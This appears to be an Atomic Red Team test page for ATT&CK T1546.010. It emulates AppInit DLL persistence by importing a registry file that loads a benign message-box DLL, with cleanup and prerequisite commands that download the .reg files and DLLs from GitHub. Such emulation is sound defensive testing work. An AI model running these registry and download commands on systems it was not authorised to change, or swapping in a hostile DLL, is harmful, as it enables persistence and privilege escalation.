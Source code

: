 # T1546.010 - Event Triggered Execution: AppInit DLLs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/010)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppInit DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppInit_DLLs</code> value in the Registry keys <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> or <code>HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows</code> are loaded by user32.dll into every process that loads user32.dll. In practice this is nearly every program, since user32.dll is a very common library. (Citation: Elastic Process Injection July 2017)

Similar to Process Injection, these values can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. (Citation: AppInit Registry) Malicious AppInit DLLs may also provide persistence by continuously being triggered by API activity. 

The AppInit DLL functionality is disabled in Windows 8 and later versions when secure boot is enabled. (Citation: AppInit Secure Boot)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install AppInit Shim](#atomic-test-1---install-appinit-shim)


<br/>

## Atomic Test #1 - Install AppInit Shim
AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution, 
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regularly as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the 
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

Note: If secure boot is enabled, this technique will not work. https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls

**Supported Platforms:** Windows


**auto_generated_guid:** a58d9386-3080-4242-ab5f-454c16503d18





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010.reg|
| registry_cleanup_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010-cleanup.reg|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe import #{registry_file}
```

#### Cleanup Commands:
```cmd
reg.exe import #{registry_cleanup_file} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})
##### Check Prereq Commands:
```powershell
if ((Test-Path #{registry_file}) -and (Test-Path #{registry_cleanup_file})) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path #{registry_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```
##### Description: DLL's must exist in the C:\Tools directory (T1546.010.dll and T1546.010x86.dll)
##### Check Prereq Commands:
```powershell
if ((Test-Path c:\Tools\T1546.010.dll) -and (Test-Path c:\Tools\T1546.010x86.dll)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory C:\Tools -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010.dll" -OutFile C:\Tools\T1546.010.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010x86.dll" -OutFile C:\Tools\T1546.010x86.dll
```




<br/>

